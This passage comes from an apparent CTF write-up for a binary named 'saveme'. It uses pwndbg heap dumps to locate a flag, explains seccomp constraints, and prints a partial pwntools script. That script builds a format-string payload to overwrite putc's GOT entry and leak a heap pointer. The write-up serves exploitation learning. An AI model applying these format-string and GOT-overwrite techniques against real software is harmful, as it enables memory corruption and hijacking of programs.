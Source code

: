 Ah, we see one pointer in the stack - `0x21a9ea0` at `0x7ffcb4163450`. Over many runs, we can see that this heap pointer is at the same relative offset from our buffer, i.e. the heap pointer is at address `buf-0xd0`. ASLR still keeps the lower 12 bits constant, and over many runs we see the same lower three nibbles `ea0`. The flag also should be in the same place in the heap relative to the heap base, so let's look through the heap and find it:

```
pwndbg> x/256gx 0x21a9000
...
0x21a9280:      0x0000000000000000      0x0000000000000000
0x21a9290:      0x0000000000000000      0x0000000000000061
0x21a92a0:      0x6968747b67616c66      0x6c5f615f73695f73
0x21a92b0:      0x6b61665f6c61636f      0x0a7d67616c665f65
0x21a92c0:      0x0000000000000000      0x0000000000000000
0x21a92d0:      0x0000000000000000      0x0000000000000000
...
```

We see the flag string at `0x21a92a0`, and surely enough the three nibbles `2a0` is constant every time the program is run. So now we know the address of `buf` (given by the program), the address where a pointer to the heap is stored (`buf-0xd0`), and the offset from that heap address to the flag (`*(buf-0xd0)-0xc00`). Now, we have arbitrary write, and we know where the flag is relatively. How hard could this be?

## Format strings

Well, we need the address of the heap pointer leaked. That's easy, we know the address of where that pointer is, so we can just put that in the buffer and the `printf` will print it out. Oh, but the program terminates after that. We want the program to repeat at least once, then. The first thing that comes to mind is overwriting the return address with `main` address. But there's a problem - `seccomp` only allows syscalls of `read` and `write`, so any other syscalls (even seccomp!) will kill the program. No problem, let's directly jump to where it calls the second `scanf`, i.e. `0x4014f9`. Wait, there's another problem: the saved `rbp` is 0 (at `0x7ffcb4163580`), so anything that dereferences `buf` will be an invalid pointer (`buf` is `rbp-0x60`). So to pull this off, we have to write 8 bytes for saved return address, and also saved rbp for `rbp`.

After spending more time than I should have trying to relearn format strings and debugging, I realized that the arbitrary write can only 2 bytes per `%n`, although it does technically write 4 bytes. (Or at the time, I thought so. Later, I played around with sizes and it seems like somewhere around `0x20000` bytes of characters to be printed, `printf` will call `malloc` on a large enough size that it will call `mmap`, which is a syscall not allowed by seccomp.) Anyway, with two bytes that can be written per write, there just is not enough space in the buffer to do 16 bytes worth of writing.

The next idea was to overwrite the `GOT` entry for `putc`, and make it point to the second `scanf` call (i.e. `0x4014f9`). This way, we only need 3 byte overwrite. This is possible - in fact, we can also leak the heap address at the same time!

```py
from pwn import *

p = process('./saveme')
elf = ELF('./saveme')

putc_got = elf.got['putc']

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')

payload  = b'%64p'      # write 0x40
payload += b'%12$n'     # at putc_got+2
payload += b'%5305p'    # write 0x14f9
payload += b'%13$hn'    # at putc_got
payload += b'%14$s'     # leak heap address

payload += b'\x00'*(8-(len(payload)%8)) + p64(putc_got+2) + p64(putc_got) + p64(buf_addr-0xd0)
```